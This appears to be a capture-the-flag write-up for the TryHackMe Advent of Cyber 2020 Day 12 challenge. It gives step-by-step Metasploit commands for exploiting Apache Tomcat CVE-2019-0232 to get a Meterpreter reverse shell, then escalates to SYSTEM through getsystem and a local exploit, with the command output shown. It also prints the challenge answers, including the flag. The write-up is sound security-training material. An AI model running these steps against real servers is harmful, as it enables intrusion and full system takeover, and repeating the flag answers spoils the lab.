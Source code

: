 # Day 12 - Ready, set, elf

**Date:** 12, December, 2020

**Author:** Dhilip Sanjay S

---

## Learning Objectives
- [Common Gateway Interface (or) CGI](https://www.tcl.tk/man/aolserver3.0/cgi-ch1.htm)
    - Standard means of communicating and processing data between a client such as a web browser to a web server.
    - CGI Scripts are stored in `/cgi-bin/` folder. 
        - **Example:**`systeminfo.sh` shows the date and time.
    - By adding `?&<command>` to the URL, you can check whether your command is executed and you get the output.
        - For Linux- `ls`
        - For Windows - `systeminfo`
    - **Note:** Special characters will be [URL Encoded](https://www.techopedia.com/definition/10346/url-encoding)

- [Metasploit](https://www.metasploit.com/)
---

## Solutions
### What is the version number of the web server?
- **Answer:** 9.0.17
- **Steps to Reproduce:** Use `nmap` or visit `<MACHINE_IP>:8080` on browser
---

### What CVE can be used to create a Meterpreter entry onto the machine?
- **Answer:** CVE-2019-0232 (Apache Tomcat - CGIServlet enableCmdLineArguments Remote Code Execution (Metasploit))
- **Steps to Reproduce:** 
    - Use `msfconsole` (Metasploit) or [Exploit-DB](https://www.exploit-db.com/)
    - Search `Apache Tomcat 9.0` - For Windows

---

### What are the contents of flag1.txt
- **Answer:** thm{whacking_all_the_elves}
- **Steps to Reproduce:** 
    - msf6>`search apache tomcat 9.0`
        ```bash        
        Matching Modules
        ================

        #  Name                                         Disclosure Date  Rank       Check  Description
        -  ----                                         ---------------  ----       -----  -----------
        0  exploit/windows/http/tomcat_cgi_cmdlineargs  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
        ```
        
    - msf6>`use 0`
    - `set LHOST <Your_TryHackMe_IP>`
    - `set RHOSTS <MACHINE_IP>`
    - `set TARGETURI /cgi-bin/elfwhacker.bat`
    - Verify the settings by typing `options`
    - Type `run`. You'll get the Meterpreter shell.
    - meterpreter>`shell`
    - Now you'll get a shell on the Target machine
    - To view the flag - `type flag1.txt`

### Looking for a challenge? Try to find out some of the vulnerabilities present to escalate your privileges!
- **Privilege Escalation:**
    - [Offensive Security Article](https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/)
    - [Null Byte Article](https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/)

    ### 1. Using `getsystem` command
    - **Before Escalation:**
        ```powershell
        meterpreter > getuid
        Server username: TBFC-WEB-01\elfmcskidy    
        ```
    - **Escalation:**
        ```powershell
        meterpreter> use priv
        Loading extension priv...success.

        meterpreter> getsystem
        ...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
        ```
    
    - **Post Esclation:**
        ```powershell
        meterpreter> getuid
        Server username: NT AUTHORITY\SYSTEM
        ```

    ### 2. Using Local Exploits 
    - If `getsystem` fails:
        ```powershell
        meterpreter > getsystem
        [-] priv_elevate_getsystem: Operation failed: Access is denied.        
        ```

    - Run the command:
     ```powershell
     meterpreter> run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
        [+] 10.10.xxx.xxx - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
        [+] 10.10.xxx.xxx - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
        [+] 10.10.xxx.xxx - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
        [+] 10.10.xxx.xxx - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.    
    ```
    - Only `exploit/windows/local/ms16_075_reflection` is used for privilege escalation.
    - Move the current meterpreter to background.
    - Set the options along with `session` and then run the above mentioned exploit using the command `exploit`.
    - Now you will get the shell with admin access.
    ```powershell
        meterpreter> getuid
        Server username: NT AUTHORITY\SYSTEM
    ```

---